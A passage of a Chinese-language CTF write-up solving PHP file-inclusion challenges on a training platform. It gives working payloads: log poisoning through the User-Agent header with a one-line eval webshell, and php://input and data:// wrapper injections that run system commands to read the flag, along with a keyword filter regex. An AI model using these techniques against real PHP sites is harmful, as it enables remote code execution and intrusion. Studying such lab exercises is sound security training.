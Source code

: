 结合这里的include，构造如下语句，也可以尝试先/etc/passwd，确认的确可以包含。

`?c=include%0a$_GET[a]?>&a=../../../../var/log/nginx/access.log`

访问该路径时，（这一步一直不成功）在User-Agent中写入一句话木马`<?php @eval($_POST[‘a’]);?>`，然后用中国蚁剑连接即可

或者修改User-Agent为我们要执行的语句，访问主页。 再去访问日志，就可以看到当前目录的文件列表了。





## Web 35

```php
if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){ 
```

这里介绍两种方法：`php://input`和`Data伪协议`

### **php://input**

题目对常见命令都进行过滤，但是仔细发现可以利用include进行绕过，具体实现方式为 `eval(include flag.php;);`，但是题目屏蔽了分号(;)和点号(.),，其中分号可以使用?>平替，但是点号无法绕过，遂使用post执行php代码注入flag.php，因此可得payload:

GET：`?c=include$_GET[1]?>&1=php://input`

POST：`<?php system('tac flag.php');?>`

**注意**：因为POST没有按照key=value封装数据，因此hackBar认为数据有问题，不会发送数据，可以使用Burp Suite发送数据。**!!注意!! php://input别使用hackbar，用BurpSuite**

**补充:**    `php://input`默认读取没有处理过的POST数据



#### **Data伪协议：**

**Data伪协议用法：**

1. `data://text/plain,php代码`
2. `data://text/plain;base64,php代码`

`?c=include%0a$_GET[a]?>&a=data://text/plain,<?php system("tac fla*");?>`

这个不知道为什么也是在hackbar里面发送不出去，直接在浏览器地址栏里面弄就好了





## Web 37

代码如下：

```php
<?php
//flag in flag.php
error_reporting(0);
if (isset($_GET['c'])) {
    $c = $_GET['c'];
    if (!preg_match("/flag/i", $c)) {
        include($c);
        echo $flag;
    }
} else {
    highlight_file(__FILE__);
}
?>
```
